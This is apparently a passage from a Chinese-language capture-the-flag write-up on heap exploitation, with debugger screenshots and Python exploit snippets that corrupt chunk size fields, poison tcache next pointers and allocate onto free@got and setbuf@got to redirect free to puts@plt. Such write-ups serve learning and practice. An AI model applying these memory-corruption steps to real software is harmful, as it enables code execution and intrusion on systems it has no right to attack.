 的确是这样的：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307155954.png)

看下堆：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160244.png)

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160305.png)



然后修改`size`域：

```python
# edit and overlap size field
edit_note(0, p64(0) + p64(0x71))
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160436.png)

释放这个假`chunk`：

```python
# del_note 1 chunk B and re-malloc it
del_note(1)
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160554.png)

重新`malloc`回来，然后释放`chunk C/D`，并修改它们的`next`指针：

```python
new_note(0x1, 0x60) # idx 1 chunk F

 # del_note 2 chunk C and 3 chunk D
del_note(2)
del_note(3)

# change the next pointer of freed chunk C and freed chunk D
payload = p64(0) * 3 + p64(0x21) + p64(0x602018) + p64(0) * 2 + p64(0x31) + p64(0x602070)
edit_note(1, payload)
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160839.png)

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307160923.png)

分配到`free@got`和`setbuf@got`，并修改内容：

```python
# tcache attack
new_note(1, 0x10)
new_note(1, 0x20)

new_note(2, 0x10, p64(0x400790)) # idx 2, chunk G, change free@got to puts@plt
new_note(3, 0x20, b'a' * 8) # idx 3, chunk H, change setbuf@got to 'aaaaaaaa'
```
